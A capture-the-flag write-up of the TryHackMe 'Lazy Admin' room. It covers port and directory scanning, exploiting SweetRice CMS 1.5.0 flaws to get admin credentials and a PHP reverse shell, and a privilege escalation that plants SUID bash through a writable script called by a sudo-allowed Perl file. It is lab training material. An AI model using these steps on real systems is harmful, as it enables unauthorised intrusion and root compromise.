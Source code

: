 ```yaml
---
slug: lazy_admin
title: Lazy Admin CTF
authors: [hueami]
tags: [tryhackme, ctf, rce, lpe]
comments: true
---
```


## Lazy Admin CTF Write-Up

This document provides a comprehensive write-up of the [Lazy Admin](https://tryhackme.com/room/lazyadmin) room on TryHackMe, highlighting a methodical approach to penetration testing within a controlled environment. The challenge is tagged as easy and focuses on exploiting common vulnerabilities found in web applications and misconfigurations within Unix systems.

<!-- truncate -->

### Initial Reconnaissance

#### Web Enumeration

Initial interaction with the target's IP address revealed an Apache default page, suggesting further investigation was necessary. Port scanning was conducted using `nmap` to identify open services:

```bash
nmap [target IP] -p0- -T4
```

The scan results indicated two open ports:
- **22/tcp** for SSH
- **80/tcp** for HTTP

Following this, directory enumeration was performed using `feroxbuster` to discover potential web directories:

```bash
feroxbuster -u [target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --dont-filter --filter-status 404
```

The command uncovered a directory `/content/`, hinting at the presence of a CMS, identified as SweetRice based on the text on the welcome page. It also revealed `/content/as`, the admin panel of the CMS. User and password are unknown yet.

#### CMS Version Identification

Additional file enumeration focused on the SweetRice CMS path, utilizing `feroxbuster` with a file-specific wordlist, revealing a `changelog.txt`.

```bash
feroxbuster -u [target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --dont-filter --filter-status 404
```

 Analysis of this file confirmed the CMS version as 1.5.0.

#### Exploit Research

Research on ExploitDB identified vulnerabilities associated with SweetRice 1.5.0, including a MySQL backup issue and a PHP code execution vulnerability:
- **MySQL Backup Discovery**: [ExploitDB Link](https://www.exploit-db.com/exploits/40718)
- **PHP Code Execution Vulnerability**: [ExploitDB Link](https://www.exploit-db.com/exploits/40700)

### Gaining Initial Access

The MySQL backup vulnerability indeed led to a mysql backup file, which provided credentials for a user calles "manager", with a hashed password. These credentials facilitated admin panel access.

### Establishing a Shell

Studying the PHP code execution vulnerability revealed, that php code could be inserted into the Ads code field and then be executed. I used the [pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), initiated a netcat listener on my local machine, and accessed the manipulated Ad URL `http://[target IP]/content/inc/ads/shell.php`. That granted a shell as `www-data`.

#### Shell Stabilization

To stabilize the shell, a Python one-liner was executed, followed by terminal adjustments for full interactivity:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Ctrl + Z for background process and execute:
```bash
stty raw -echo; fg
export TERM=xterm
```
I then found the user flag in `/home/itguy/user.txt`.

### Privilege Escalation

Analysis of user sudo permissions with `sudo -l` revealed a Perl script that could be executed as root without a password:

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

The script was not writeable by any user but invokes another script (`/etc/copy.sh`), which was.

#### Achieving Root Access

Modifying `/etc/copy.sh` to copy and set SUID permissions on `/bin/bash`, and executing the Perl script as sudo, facilitated root shell access:

```bash
echo "cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash;" > /etc/copy.sh
sudo /home/itguy/backup.pl
/tmp/bash -p
```

With the spawned root shell I was able to obtain the root flag in `/root/root.txt`

### Conclusion

This write-up documented the technical steps taken to compromise the "Lazy Admin" CTF challenge on TryHackMe, emphasizing enumeration, vulnerability exploitation, and privilege escalation techniques. The process underscores the importance of meticulous reconnaissance and leveraging known vulnerabilities to achieve elevated privileges.

